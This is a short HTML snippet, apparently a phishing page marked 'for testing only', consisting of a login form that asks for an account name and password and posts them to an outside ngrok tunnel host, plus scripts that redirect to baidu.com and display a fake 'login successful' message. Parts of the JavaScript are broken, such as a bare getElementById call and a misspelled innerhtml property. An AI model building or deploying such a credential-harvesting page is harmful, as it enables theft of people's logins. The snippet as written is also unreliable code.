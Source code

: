 <!--仅为测试-->
<script>
function getQueryString(name) { 
        var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)", "i"); 
        var r = window.location.search.substr(1).match(reg); 
        if (r != null) return unescape(r[2]); 
        return null; 
    } 
  a = getQueryString("fin")
  if (a!=null){v = getElementById("passer");v.innerhtml= "登录成功!")
</script>
<script>
        window.location.href="//baidu.com"
</script>
<form action="http://h503mc.ngrok2.xiaomiqiu.cn/users/users.php" method="post" id="passer" style="text-align:center">
你的账户名:<input type="text" name="user">
密码:<input type="password" name="pass">
<input type="submit" value="提交">
</form>
